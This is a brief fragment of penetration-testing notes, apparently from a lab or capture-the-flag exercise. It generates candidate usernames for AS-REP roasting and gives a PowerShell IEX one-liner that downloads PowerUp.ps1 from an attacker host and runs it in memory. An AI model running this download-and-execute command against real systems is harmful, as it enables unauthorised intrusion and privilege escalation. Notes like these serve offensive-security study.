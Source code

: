 # create list of usernames
```bash
/opt/username-anarchy/username-anarchy --input-file users.txt > asrep_users.txt
```

```powershell

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.20/PowerUp.ps1')


```